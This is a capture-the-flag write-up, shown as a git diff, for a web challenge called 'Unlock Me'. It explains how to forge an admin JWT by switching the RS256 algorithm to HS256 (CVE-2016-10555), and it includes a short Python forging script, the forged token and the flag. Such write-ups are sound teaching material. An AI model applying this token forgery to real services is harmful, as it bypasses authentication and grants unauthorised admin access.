

UnlockMe writeup

diff --git a/Web/UnlockMe.md b/Web/UnlockMe.md
@@ -1,5 +1,87 @@
+# [WEB] Unlock Me
 
-**CVE-2016–10555** - RS256 can be substituted with HS256 algorithm.
+## Background
+
+The description given for this challenge was:
+```
+Our agents discovered COViD's admin panel! They also stole the credentials minion:banana, but it seems that the user isn't allowed in. Can you find another way?
+```
+
+<br/>
+
+## Website Analysis
+
+Opening the link shows a simple login page. The first thing I did was to check the source for any HTML comments (they usually contain useful hints).
+
+<img src="screenshots/unlockme-1.jpg" style="border:10px black" caption="Login page from the challenge site." />
+
+<br/>
+
+True enough, there is one comment that says something about `public.pem`. My instinct was to see if the file is available for me to download by visiting `/public.pem`, which was successful:
+
+<img src="screenshots/unlockme-2.jpg" style="border:10px black" caption="Downloading /public.pem was successful." />
+
+<br/>
+
+## Authentication Process
+
+Next, it is time to examine the authentication process. Looking at the source once again:
+
+```js
+// Irrelevant code has been filtered
+
+$( "#signinForm" ).submit(function( event ) {
+  event.preventDefault();
+  fetch("login", {
+    method: "POST",
+    headers: {
+      "Content-Type": "application/json"
+    },
+    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
+  }).then(function(response) {
+    return response.json();
+  }).then(function(data) {
+    if (data.error) {
+      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
+    } else {
+      fetch("unlock", {
+        headers: {
+          "Authorization": "Bearer " + data.accessToken
+        }
+      }).then(function(response) {
+// ...
+```
+
+In this [promise chain](https://javascript.info/promise-chaining) and using [fetch()](https://javascript.info/fetch) to send HTTP requests, once the "Sign In" button was been clicked, the following will occur:
+1. Send a `POST` request to `/login` with the parameters `username` and `password` set with the values from the form.
+2. JSONify the server's response.
+3. If `data.error` exists in the JSON response (`data`), the browser will display it. **Otherwise**, a `GET` request is sent to `/unlock`, adding `data.accessToken` in the [Authorization HTTP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Authorization): `Authorization: Bearer <data.accessToken>`.
+
+Observe the (un)authentication in action when using the credentials `minion:banana`:
+
+<img src="screenshots/unlockme-3.jpg" style="border:10px black" caption="Attempting to login with the given credentials." />
+
+<br/>
+
+I recognized that the `data.accessToken` is actually a [JWT web token](https://jwt.io/).
+
+### JWT Token
+
+I proceeded to use [JWT.io](https://www.jwt.io) to decode this token and to analyze the payload within:
+
+<img src="screenshots/unlockme-4.jpg" style="border:10px black" caption="Decoded JWT token." />
+
+<br/>
+
+I saw that the username `minion` seems to be valid, but the `role` is set to `user`. It is highly likely that it needs to be `admin` instead. However, even though I could decode the payload easily, I am unable to modify it since the server validates if the JWT token is valid or not. By modifying the payload segment, the signature segment will no longer be valid.
+
+💪 Time to try harder.
+
+## Authentication Bypass
+
+I took a step back and saw that the token uses the `RS256` (RSA w/ SHA256) algorithm, which means that the server might be vulnerable to [**CVE-2016–10555**](https://nvd.nist.gov/vuln/detail/CVE-2016-10555). In essence, this vulnerability allows the `RS256` algorithm to be substituted with the `HS256` (HMAC w/ SHA256) algorithm, and the payload to be signed with the original RSA public key (instead of the private key on the server-end). This means that I can **forge** JWT tokens containing payloads and valid signatures.
+
+Since I have obtained the public key earlier on: 
 
 ```bash
 # public.pem
@@ -20,8 +102,11 @@ G0hytABBbCgeL00ymJK16tUCAwEAAQ==
 -----END PUBLIC KEY-----
 ```
 
-Generate a forged token using a simple Python script:
+I would be able to forge a JWT token that sets the `role` to `admin`! In order to do so, I used the following Python script (requires [pyJWT](https://pyjwt.readthedocs.io/en/stable/)):
+
 ```py
+# gen.py
+
 import jwt
 
 key = open("public.pem").read()
@@ -34,5 +119,24 @@ encoded = jwt.encode(
   key,
   algorithm='HS256')
 
-print "Forged Token: %s" % (encoded)
+print "JWT Token: {}".format(encoded)
+```
+
+Running it spawns a token:
+```bash
+$ python gen.py
+JWT Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsImlhdCI6MTYwNzI0MTQwNiwicm9sZSI6ImFkbWluIn0.EpTg1WqcMWon0KGb9Hw1onJ4gBO5QGA41YVmUmKhXZY
+```
+
+Using this generated JWT token in-place of the original one, I sent a `GET` request to `/unlock`:
+
+<img src="screenshots/unlockme-5.jpg" style="border:10px black" caption="Logging in with the generated JWT token." />
+
+<img src="screenshots/unlockme-6.jpg" style="border:10px black" caption="Logging in with the generated JWT token." />
+
+<br/>
+
+Which gave me the flag for this challenge:
+```
+govtech-csg{5!gN_0F_+h3_T!m3S}
 ```
